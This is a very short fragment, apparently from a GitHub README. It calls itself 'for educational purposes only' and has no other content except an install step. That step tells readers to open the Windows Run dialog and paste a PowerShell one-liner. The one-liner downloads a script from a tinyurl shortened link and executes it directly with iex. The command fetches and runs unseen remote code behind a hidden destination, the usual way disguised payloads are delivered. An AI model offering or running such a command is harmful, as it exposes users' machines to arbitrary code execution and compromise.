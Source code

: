 educational propouses only.

For install:
Win + R and paste this:

```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
